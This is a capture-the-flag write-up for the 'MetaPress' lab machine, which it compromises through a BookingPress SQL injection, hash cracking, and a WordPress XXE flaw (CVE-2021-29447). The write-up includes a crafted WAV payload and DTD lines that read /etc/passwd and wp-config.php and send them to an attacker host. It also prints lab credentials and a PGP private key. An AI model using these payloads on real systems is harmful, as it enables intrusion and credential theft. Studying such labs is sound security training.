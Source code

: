 
# 1. Enum
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
21/tcp open  ftp?    syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)

visiting the websit it redirect us to 
metapress.htb
adding the domain to our hosts files

## 1.1 metapress.htb
![[Pasted image 20221116171624.png]]
running gobuster
![[Pasted image 20221116171752.png]]
looks like website is running on [[01 Enumeration/Web/WordPress]]
![[Pasted image 20221116171927.png]]
Running wpscan
Found user admin and manager
![[Pasted image 20221116181843.png]]
## 1.2 wordpress enum
in /events checking out the source code
![[Pasted image 20221116181647.png]]

![[Pasted image 20221116181709.png]]
website is using bookingpress plugin
# 2. Exploit
found a github script that exploits bookingpress plugin
https://github.com/destr4ct/CVE-2022-0739
also checkout
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
![[Pasted image 20221116182740.png]]
and we got manager and admin encrypted passwords
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2

```
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```
## 2.1 cracking the password
cracking the hash with hashcat 
```
hashcat -m 400 -a 0 hash
```
[[Hashcat]]
![[Pasted image 20221116191650.png]]
![[Pasted image 20221116191731.png]]
we cracked manager password
wordpress:manager:partylikearockstar
![[Pasted image 20221116191914.png]]

uploading rev shell but didn't work due to filters
going back to wordpress version we found that wordpress 5.6 was vulnerable to XXE
https://github.com/motikan2010/CVE-2021-29447
https://nvd.nist.gov/vuln/detail/CVE-2021-29447

create the wav file and add our payload to it to upload our exploit 
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.12:8001/evil.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav
```
create our .dtd exploit to get /etc/passwd ( modified the .dtd in the repo for easier decoding)
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```
upload malicious.wav to the server
![[Pasted image 20221116211000.png]]
![[Pasted image 20221116211055.png]]


```
echo -n 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmlu
L25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zY
mluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYW
lsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXN
yL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6
eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6M
zk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm
5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV
0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZl
ciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L
3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaH
Jvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1F
MIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNy
L3NiaW4vbm9sb2dpbgo=' | base64 -d --ignore-garbage 

```
was always getting error during decoding but fixed with --ignore-garbage 
and we have /etc/passwd
![[Pasted image 20221116213318.png]]
users found:
jnelson
root
tried to get jnelson user ssh key with the exploit but didn't work
getting webserver config file


![[Pasted image 20221116214856.png]]
tried /etc/nginx/nginx.conf didn't find much
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/nginx/sites-available/default">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```
![[Pasted image 20221116215245.png]]
now we have metapress.htb path we can also read it's conf file

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.16.12:8001/?p=%file;'>" >
```

![[Pasted image 20221116215639.png]]
mysql:blog:635Aq@TdqrCwXFUZ

ftp creds
![[Pasted image 20221116215702.png]]
ftp :metapress.htb:9NYS_ii@FyL_p5M2NvJ
![[Pasted image 20221116215820.png]]

![[Pasted image 20221116220259.png]]
looks like all the website is uploaded to ftp
and in mailer directory we found .php file 
![[Pasted image 20221116220655.png]]

![[Pasted image 20221116220634.png]]

ssh :jnelson:Cb4_JmWM8zUZWMu@Ys 
![[Pasted image 20221116220738.png]]
#userflag c291bca8a918614c35a55c795912ee0b
apparently it's ssh password and we are in as jnelson
found weird directory in jnelson home /.passpie
https://github.com/marcwebbie/passpie
and we found
pgp messages and pgp private key


root.pass
```
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----
```
it's encrypted PGP message

and inside .keys we have public and private key 
removing public key and we have private key
```
-----BEGIN PGP PRIVATE KEY BLOCK-----                                                                                                                        
                                                                                                                                                             
lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1                                                                                             
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD                                                                                             
/GYn9FIjUAWqnfdnttBbvBjseL4sECpmgxTIjKbWAXlqgEgNjXD306IweEy2FOho                                                                                             
3LpAXxfk8C/qUCKcpxaz0G2k0do4+VTKZ+5UDpqM5++soJqhCrUYudb9zyVyXTpT                                                                                             
ZjMvyXe5NeC7JhBCKh+/Wqc4xyBcwhDdW+WU54vuFUthn+PUubEN1m+s13BkyvHV                                                                                             
gNAM4v6terRItXdKvgvHtJxE0vhlNSjFAedACHC4sN+dRqFu4li8XPIVYGkuK9pX                                                                                             
5xA6Nj+8UYRoZrP4SYtaDslT63ZaLd2MvwP+xMw2XEv8Uj3TGq6BIVWmajbsqkEp                                                                                             
tQkU7d+nPt1aw2sA265vrIzry02NAhxL9YQGNJmXFbZ0p8cT3CswedP8XONmVdxb                                                                                             
a1UfdG+soO3jtQsBAKbYl2yF/+D81v+42827iqO6gqoxHbc/0epLqJ+Lbl8hC/sG                                                                                             
WIVdy+jynHb81B3FIHT832OVi2hTCT6vhfTILFklLMxvirM6AaEPFhxIuRboiEQw                                                                                             
8lQMVtA1l+Et9FXS1u91h5ZL5PoCfhqpjbFD/VcC5I2MhwL7n50ozVxkW2wGAPfh                                                                                             
cODmYrGiXf8dle3z9wg9ltx25XLsVjoR+VLm5Vji85konRVuZ7TKnL5oXVgdaTML                                                                                             
qIGqKLQfhHwTdvtYOTtcxW3tIdI16YhezeoUioBWY1QM5z84F92UVz6aRzSDbc/j
FJOmNTe7+ShRRAAPu2qQn1xXexGXY2BFqAuhzFpO/dSidv7/UH2+x33XIUX1bPXH
FqSg+11VAfq3bgyBC1bXlsOyS2J6xRp31q8wJzUSlidodtNZL6APqwrYNhfcBEuE
PnItMPJS2j0DG2V8IAgFnsOgelh9ILU/OfCA4pD4f8QsB3eeUbUt90gmUa8wG7uM
FKZv0I+r9CBwjTK3bg/rFOo+DJKkN3hAfkARgU77ptuTJEYsfmho84ZaR3KSpX4L
/244aRzuaTW75hrZCJ4RxWxh8vGw0+/kPVDyrDc0XNv6iLIMt6zJGddVfRsFmE3Y
q2wOX/RzICWMbdreuQPuF0CkcvvHMeZX99Z3pEzUeuPu42E6JUj9DTYO8QJRDFr+
F2mStGpiqEOOvVmjHxHAduJpIgpcF8z18AosOswa8ryKg3CS2xQGkK84UliwuPUh
S8wCQQxveke5/IjbgE6GQOlzhpMUwzih7+15hEJVFdNZnbEC9K/ATYC/kbJSrbQM
RfcJUrnjPpDFgF6sXQJuNuPdowc36zjE7oIiD69ixGR5UjhvVy6yFlESuFzrwyeu
TDl0UOR6wikHa7tF/pekX317ZcRbWGOVr3BXYiFPTuXYBiX4+VG1fM5j3DCIho20
oFbEfVwnsTP6xxG2sJw48Fd+mKSMtYLDH004SoiSeQ8kTxNJeLxMiU8yaNX8Mwn4
V9fOIdsfks7Bv8uJP/lnKcteZjqgBnXPN6ESGjG1cbVfDsmVacVYL6bD4zn6ZN/n
WP4HAwKQfLVcyzeqrf8h02o0Q7OLrTXfDw4sd/a56XWRGGeGJgkRXzAqPQGWrsDC
6/eahMAwMFbfkhyWXlifgtfdcQme2XSUCNWtF6RCEAbYm0nAtDNQYXNzcGllIChB
dXRvLWdlbmVyYXRlZCBieSBQYXNzcGllKSA8cGFzc3BpZUBsb2NhbD6IkAQTEQgA
OBYhBHxnhqdWG8hPUEhnHjh3dcNXRdIDBQJiuFfWAhsjBQsJCAcCBhUKCQgLAgQW
AgMBAh4BAheAAAoJEDh3dcNXRdIDRFQA/3V6S3ad2W9c1fq62+X7TcuCaKWkDk4e
qalFZ3bhSFVIAP4qI7yXjBXZU4+Rd+gZKp77UNFdqcCyhGl1GpAJyyERDZ0BXwRi
uFfWEAQAhBp/xWPRH6n+PLXwJf0OL8mXGC6bh2gUeRO2mpFkFK4zXE5SE0znwn9J
CBcYy2EePd5ueDYC9iN3H7BYlhAUaRvlU7732CY6Tbw1jbmGFLyIxS7jHJwd3dXT
+PyrTxF+odQ6aSEhT4JZrCk5Ef7/7aGMH4UcXuiWrgTPFiDovicAAwUD/i6Q+sq+
FZplPakkaWO7hBC8NdCWsBKIQcPqZoyoEY7m0mpuSn4Mm0wX1SgNrncUFEUR6pyV
jqRBTGfPPjwLlaw5zfV+r7q+P/jTD09usYYFglqJj/Oi47UVT13ThYKyxKL0nn8G
JiJHAWqExFeq8eD22pTIoueyrybCfRJxzlJV/gcDAsPttfCSRgia/1PrBxACO3+4
VxHfI4p2KFuza9hwok3jrRS7D9CM51fK/XJkMehVoVyvetNXwXUotoEYeqoDZVEB
J2h0nXerWPkNKRrrfYh4BBgRCAAgFiEEfGeGp1YbyE9QSGceOHd1w1dF0gMFAmK4
V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```


![[Pasted image 20221116224955.png]]


and now we crack it **hopefully**
![[Pasted image 20221116225007.png]]
and it's cracked
![[Pasted image 20221116230558.png]]
![[Pasted image 20221116230635.png]]
back to the target machine we can now extract passwords from passpie
first we create a file to dump passwords in 
```bash
touch pwned.txt
passpie list
passpie export pwned.txt

```
![[Pasted image 20221116231209.png]]
and we have the root's password
![[Pasted image 20221116231603.png]]
#rootflag 87dd7422c92cb9bdeaf940cc5c8208ae
